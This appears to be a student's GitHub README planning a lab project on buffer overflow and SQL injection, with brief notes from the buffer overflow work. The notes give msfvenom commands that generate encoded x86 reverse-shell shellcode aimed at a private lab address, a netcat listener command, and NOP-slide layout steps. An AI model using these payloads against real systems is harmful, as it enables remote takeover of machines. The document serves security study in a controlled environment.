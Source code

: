 # Project: Exploring Buffer Overflow, XSS and SQL Injection Techniques

<!-- markdown-toc start - Don't edit this section. Run M-x markdown-toc-refresh-toc -->
**Table of Contents**

- [Project: Exploring Buffer Overflow, XSS and SQL Injection Techniques](#project-exploring-buffer-overflow-xss-and-sql-injection-techniques)
    - [Owner](#owner)
    - [Methodology](#methodology)
    - [Results and Discussion](#results-and-discussion)
- [Buffer Overflow](#buffer-overflow)
    - [Generate Shell Code](#generate-shell-code)
    - [Findings](#findings)
        - [TODO](#todo)
        - [Sources](#sources)

<!-- markdown-toc end -->


This project aims to explore the vulnerabilities of software systems through the use of buffer overflow and SQL injection attacks. These types of attacks are commonly used by malicious actors to gain unauthorized access to sensitive information, disrupt system functionality, or execute arbitrary code on a target system.

Additionally, the project will utilise industry standard tools such as Metasploit Framework to conduct the experiments, demonstrating the ability to work with real-world tools and technologies used in penetration testing and vulnerability assessments. Furthermore, the project will also include a section on mitigation techniques and best practices for secure software development, showing the ability to not only identify vulnerabilities but also propose solutions to fix them. This will showcase a well-rounded understanding of the field, which is highly desirable for employers in the security industry.

## Owner
* Luyang Liu

## Methodology
The project will begin by conducting research on the basics of buffer overflow and SQL injection attacks, including the underlying mechanisms, common techniques, and tools used to perform these types of attacks. This research will be used to inform the design of experiments to demonstrate the vulnerabilities of a sample software system to buffer overflow and SQL injection attacks.

The sample software system chosen for this project will be a simple web application, which will be set up in a controlled environment. The web application will be configured with known vulnerabilities, such as weak input validation and poor error handling, to make it susceptible to buffer overflow and SQL injection attacks.

Once the sample software system is set up, a series of experiments will be conducted to demonstrate the vulnerabilities of the system to buffer overflow and SQL injection attacks. These experiments will involve using a variety of tools and techniques to inject malicious input into the system and observe the resulting behaviour.

## Results and Discussion
The results of the experiments will be analyzed to determine the effectiveness of the buffer overflow and SQL injection attacks, and to identify any potential countermeasures that can be implemented to protect the sample software system from these types of attacks.

The findings of this project will be discussed in a report, which will include an overview of the research conducted, a description of the methodology used, and a detailed analysis of the results. The report will also include recommendations for improving the security of the sample software system, as well as suggestions for future research in this area.

# Buffer Overflow

## Generate Shell Code

* This sheems to work
```shell
msfvenom -p linux/x86/shell/reverse_tcp -f c
```

```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c
```

* This enable shikata_ga_nai encoding
```shell
sudo msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f c
```


* Basic encoding
```sh
sudo msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c -b "\x00\x0a\x0d\x20"
```

* List encoders

```sh
./msfvenom -l encoders
```

## Findings
* Stacks grow from higher address to lower
* So the buffer would be above the frame pointer and return address.
* The goal is to replace the return address to the NOP slide.
* Afterwards run the payload (reverse shell code)

* From question one the payload is too short to reach the return address so the code runs normally

### 2023-01-30 
* Original metasploit shell code linux/x86/shell_reverse_tcp is missing an exit code

```sh
xcd\x80
```

* Netcat from other (attacker) terminal needs to be turned on for shellcode to work.
```sh
nc -lvp 80
```

### TODO
* Make the overflow payload str end with repeated return address.
* Reverse Shellcode in the middle for execution
* NOP slide at the start so it can trap the execution.

### Sources
https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html
https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html
